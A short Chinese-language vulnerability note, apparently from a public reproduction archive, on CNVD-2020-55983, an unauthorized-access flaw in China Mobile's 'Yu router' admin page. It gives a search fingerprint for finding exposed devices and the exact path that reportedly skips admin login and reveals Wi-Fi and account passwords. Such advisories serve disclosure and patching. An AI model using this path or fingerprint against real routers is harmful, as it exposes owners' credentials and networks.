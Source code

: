 # 

# 中国移动 禹路由 simple-index.asp 越权访问漏洞 CNVD-2020-55983

## 漏洞描述

中国移动 禹路由 simple-index.asp 存在越权访问漏洞，攻击者通过漏洞可以获取账号密码等敏感信息

## 漏洞影响

```
中国移动 禹路由
```

## 网络测绘

```
title="互联世界 物联未来-登录"
```

## 漏洞复现

登录页面如下

![](./images/202202162253135.png)



访问Url

```plain
/simple-index.asp
```

![](./images/202202162253346.png)

越过管理员验证获取Wifl账号密码等信息
